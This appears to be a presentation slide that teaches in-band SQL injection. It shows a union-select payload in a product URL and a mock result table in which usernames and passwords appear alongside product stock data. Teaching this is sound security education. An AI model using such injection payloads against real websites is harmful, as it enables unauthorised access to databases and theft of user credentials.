

In-Band SQLi
In-band; where the results are returned in the response
site.com/products?id=1 and union select username, password from users
+-------------------------------------+
| product             | stockcount    |
+-------------------------------------+
| Model Car           | 342           |
| vortex              | password1     |
| syn0                | synisgod      |
| vputin              | ilovetrump    |
+-------------------------------------+